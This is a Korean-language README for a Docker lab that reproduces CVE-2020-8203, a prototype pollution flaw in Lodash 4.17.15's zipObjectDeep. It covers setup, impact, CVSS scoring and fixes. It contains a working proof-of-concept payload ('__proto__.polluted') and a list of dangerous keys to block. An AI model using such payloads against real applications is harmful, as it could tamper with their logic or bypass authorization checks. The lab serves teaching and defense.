



# CVE-2020-8203 - Lodash Prototype Pollution

## 1. 취약점 요약

CVE-2020-8203은 Lodash의 `_.zipObjectDeep()` 함수에서 발생하는
Prototype Pollution 취약점이다.

취약한 Lodash 버전에서 공격자가 객체의 속성 경로를 제어할 수 있는 경우
`__proto__`와 같은 특수 속성을 이용해 `Object.prototype`에 임의의
속성을 추가할 수 있다.

JavaScript의 일반 객체는 `Object.prototype`을 상속하므로
프로토타입이 오염될 경우, 직접 수정하지 않은 다른 객체에서도 공격자가
주입한 속성이 조회될 수 있다.

본 과정에서는 취약한 Lodash 4.17.15 버전을 사용하여
`Object.prototype`이 오염되는 과정을 Docker 환경에서 재현한다.

| 항목 | 내용 |
| --- | --- |
| CVE ID | CVE-2020-8203 |
| 대상 제품 | Lodash |
| 취약 함수 | `_.zipObjectDeep()` |
| 취약점 유형 | Prototype Pollution |
| 실습 버전 | Lodash 4.17.15 |
| 관련 CWE | CWE-1321 |

---

## 2. 환경 정보

본 환경은 제3자가 제작한 취약 Docker 이미지를 사용하지 않고,
공식 Node.js 베이스 이미지 위에 취약한 Lodash 버전을 직접 설치하도록
구성하였다.

| 구성 요소 | 내용 |
| --- | --- |
| 실행 환경 | Docker, Docker Compose |
| 베이스 이미지 | `node:20-bookworm-slim` |
| Node.js | 20 |
| Lodash | 4.17.15 |
| 서비스 포트 | 3000 |
| PoC 실행 방식 | Docker 컨테이너 내부 실행 |

Lodash 버전은 `package.json`에서 다음과 같이 정확히 고정되어 있다.

```json
"lodash": "4.17.15"
```

`package-lock.json`도 함께 포함하여 실행 환경마다 의존성 버전이
달라지지 않도록 구성하였다.

---

## 3. 빠른 실행

### 3.1 저장소 복제

```bash
git clone https://github.com/gunh0/kr-vulhub.git
cd kr-vulhub/Lodash/CVE-2020-8203
```

### 3.2 환경 빌드 및 실행

```bash
docker compose up -d --build
```

### 3.3 컨테이너 상태 확인

```bash
docker compose ps
```

정상적으로 실행되면 `cve-2020-8203` 컨테이너가 `Up` 상태로 표시된다.



### 3.4 취약 서버 응답 확인

```bash
curl http://localhost:3000
```

예상 결과:

```json
{
  "message": "CVE-2020-8203 vulnerable environment",
  "lodashVersion": "4.17.15",
  "pocCommand": "docker compose exec app node poc.js"
}
```



### 3.5 PoC 실행

```bash
docker compose exec app node poc.js
```

예상 결과:

```text
[*] CVE-2020-8203 Prototype Pollution PoC
[*] Lodash version: 4.17.15
[*] Before pollution:
    ({}).polluted = undefined
[*] After pollution:
    ({}).polluted = CVE-2020-8203_SUCCESS
[+] SUCCESS: Object.prototype was polluted.
```

마지막에 다음 문구가 출력되면 취약점 재현에 성공한 것이다.

```text
[+] SUCCESS: Object.prototype was polluted.
```



---

## 4. 취약 조건

다음 조건을 만족할 때 취약점이 발생할 수 있다.

1. 취약한 Lodash 버전을 사용한다.
2. 애플리케이션이 `_.zipObjectDeep()` 함수를 사용한다.
3. 공격자가 함수에 전달되는 속성 경로를 제어할 수 있다.
4. `__proto__`, `constructor`, `prototype`과 같은 위험한 키를 차단하지 않는다.
5. 오염된 프로토타입 속성이 애플리케이션의 후속 로직에서 사용된다.

다음 속성 경로를 사용한다.

```text
__proto__.polluted
```

이 경로가 취약한 `_.zipObjectDeep()`에 전달되면
`Object.prototype`에 `polluted` 속성이 추가된다.

---

## 5. PoC 핵심 코드

PoC의 핵심 동작은 다음과 같다.

```javascript
lodash.zipObjectDeep(
  ["__proto__.polluted"],
  ["CVE-2020-8203_SUCCESS"],
);
```

PoC 실행 전에는 일반 객체에 `polluted` 속성이 없으므로 다음 값은
`undefined`이다.

```javascript
({}).polluted
```

취약 함수 실행 후에는 새로 생성한 일반 객체에서도 다음 값이 조회된다.

```text
CVE-2020-8203_SUCCESS
```

전체 PoC 코드는 [`poc.js`](./poc.js)에서 확인할 수 있다.

---

## 6. 실행 결과 분석

PoC 실행 전 결과는 다음과 같다.

```text
({}).polluted = undefined
```

이는 일반 객체에 `polluted` 속성이 정의되어 있지 않음을 의미한다.

취약한 `_.zipObjectDeep()` 함수에 `__proto__.polluted` 경로를 전달한 후
결과는 다음과 같이 변경된다.

```text
({}).polluted = CVE-2020-8203_SUCCESS
```

PoC는 일반 객체에 직접 `polluted` 속성을 추가하지 않았다.
그럼에도 새 객체에서 해당 값이 조회되므로 개별 객체가 아니라
`Object.prototype`이 변경된 것을 확인할 수 있다.

JavaScript 객체는 프로토타입 체인을 통해 상위 객체의 속성을 상속한다.
따라서 `Object.prototype`이 오염되면 여러 일반 객체에 공통으로 영향을
줄 수 있다.

본 PoC는 Prototype Pollution 발생 자체를 재현한다.
직접적인 원격 코드 실행이나 인증 우회는 구현하지 않았으며,
실제 영향은 대상 애플리케이션이 오염된 속성을 어떻게 사용하는지에 따라
달라진다.

---

## 7. 보안 영향

Prototype Pollution은 애플리케이션의 구현 방식에 따라 다음 문제로
이어질 수 있다.

- 객체 기본 속성 변조
- 애플리케이션 조건문 및 분기 로직 변경
- 권한 검사 우회
- 보안 설정값 변경
- 예상하지 못한 예외 발생
- 서비스 거부
- 다른 취약 동작과 결합될 경우 코드 실행 가능성

예를 들어 애플리케이션이 상속된 속성까지 포함하여 다음과 같이 권한을
검사하면 문제가 발생할 수 있다.

```javascript
if (user.isAdmin) {
  // 관리자 기능 실행
}
```

`user` 객체 자체에 `isAdmin` 속성이 없어도
`Object.prototype.isAdmin`이 오염되어 있다면 조건식이 참으로 평가될 수 있다.

---

## 8. 위험도 평가

### 8.1 Risk Score

- Risk Score: 7.4 / 10.0
- 심각도: High
- Attack Vector: Network
- Attack Complexity: High
- Privileges Required: None
- User Interaction: None
- Scope: Unchanged
- Confidentiality Impact: None
- Integrity Impact: High
- Availability Impact: High

CVSS 벡터:

```text
CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:H/A:H
```

### 8.2 본 실습 환경 기준 해석

- 현재 실습에서는 PoC를 컨테이너 내부에서 실행한다.
- 별도의 인증은 필요하지 않는다.
- 사용자 상호작용은 필요하지 않는다.
- 직접 확인한 영향은 `Object.prototype` 변조이다.
- 직접적인 원격 코드 실행은 본 환경에서 재현하지 않았다.
- 실제 원격 악용 가능성은 취약 함수에 네트워크 입력이 전달되는
  애플리케이션 구조에 따라 달라진다.

---

## 9. 대응 방안

### 9.1 Lodash 업데이트

취약한 버전을 사용하지 않고 수정된 버전 또는 최신 안정 버전으로
업데이트한다.

```bash
npm install lodash@4.17.21
```

운영 환경에서는 `package.json`과 `package-lock.json`을 함께 관리해야 한다.

### 9.2 위험한 키 차단

외부 입력이 객체 속성 경로로 사용되는 경우 다음 키를 차단해야 한다.

```text
__proto__
prototype
constructor
```

단순 문자열 포함 검사보다 경로를 구성하는 각 키를 분리한 뒤
허용 목록 기반으로 검증하는 것이 안전하다.

### 9.3 허용 목록 기반 입력 검증

사용자가 임의의 객체 경로를 전달하지 못하도록 하고,
애플리케이션에서 필요한 속성만 명시적으로 허용한다.

```javascript
const allowedKeys = new Set(["name", "email", "theme"]);

if (!allowedKeys.has(userKey)) {
  throw new Error("Invalid property key");
}
```

### 9.4 객체 소유 속성 확인

중요한 권한이나 설정값은 프로토타입에서 상속된 값이 아니라
객체 자체가 소유한 속성인지 확인해야 한다.

```javascript
if (
  Object.prototype.hasOwnProperty.call(user, "isAdmin") &&
  user.isAdmin === true
) {
  // 관리자 기능 실행
}
```

지원되는 환경에서는 다음 방식도 사용할 수 있다.

```javascript
if (Object.hasOwn(user, "isAdmin") && user.isAdmin === true) {
  // 관리자 기능 실행
}
```

### 9.5 의존성 취약점 검사

```bash
npm audit
```

CI/CD 과정에도 의존성 취약점 검사를 추가하여 취약 버전이 다시 포함되지
않도록 관리해야 한다.

---

## 10. 재현성 평가

### 10.1 자체 평가

| 항목 | 결과 |
| --- | --- |
| Docker Compose 단일 실행 | 가능 |
| 취약 버전 고정 | 완료 |
| `package-lock.json` 포함 | 완료 |
| 호스트 Node.js 설치 | 불필요 |
| 외부 취약 이미지 의존 | 없음 |
| PoC 컨테이너 내부 실행 | 가능 |
| 실행 명령 제공 | 완료 |
| 실행 결과 이미지 포함 | 완료 |

본 환경은 다음 명령으로 빌드 및 실행할 수 있다.

```bash
docker compose up -d --build
```

PoC는 다음 명령으로 실행할 수 있다.

```bash
docker compose exec app node poc.js
```

작성 환경에서는 깨끗한 Docker 환경에서 캐시 없이 다시 빌드한 뒤
취약점 재현을 확인하였다.

최종 Reproducibility 점수는 채점 환경에서 제출 파일을 수정하지 않고
실행한 결과에 따라 결정된다.

---

## 11. 깨끗한 환경 재검증

기존 컨테이너와 네트워크를 제거한다.

```bash
docker compose down -v --remove-orphans
```

Compose 설정을 확인한다.

```bash
docker compose config
```

빌드 캐시를 사용하지 않고 이미지를 다시 빌드한다.

```bash
docker compose build --no-cache
```

컨테이너를 실행한다.

```bash
docker compose up -d
```

컨테이너 상태를 확인한다.

```bash
docker compose ps
```

서버 응답을 확인한다.

```bash
curl http://localhost:3000
```

PoC를 다시 실행한다.

```bash
docker compose exec app node poc.js
```

다음 문구가 출력되면 재현에 성공한 것이다.

```text
[+] SUCCESS: Object.prototype was polluted.
```

---

## 12. 파일 구조

```text
CVE-2020-8203/
├── Dockerfile
├── docker-compose.yml
├── package.json
├── package-lock.json
├── server.js
├── poc.js
├── README.md
└── images/
    ├── 1-docker-compose-ps.png
    ├── 2-server-response.png
    └── 3-poc-result.png
```

각 파일의 역할은 다음과 같다.

- `Dockerfile`: Node.js 기반 취약 환경 이미지 구성
- `docker-compose.yml`: 컨테이너 실행 및 포트 설정
- `package.json`: 취약한 Lodash 버전 명시
- `package-lock.json`: 의존성 버전 고정
- `server.js`: 환경 상태와 Lodash 버전 확인용 HTTP 서버
- `poc.js`: Prototype Pollution 재현 코드
- `images/`: 실행 결과 스크린샷

---

## 13. 환경 종료

실습이 끝난 후 컨테이너를 종료하고 제거한다.

```bash
docker compose down
```

관련 네트워크와 잔여 리소스까지 제거하려면 다음 명령을 사용한다.

```bash
docker compose down -v --remove-orphans
```

---

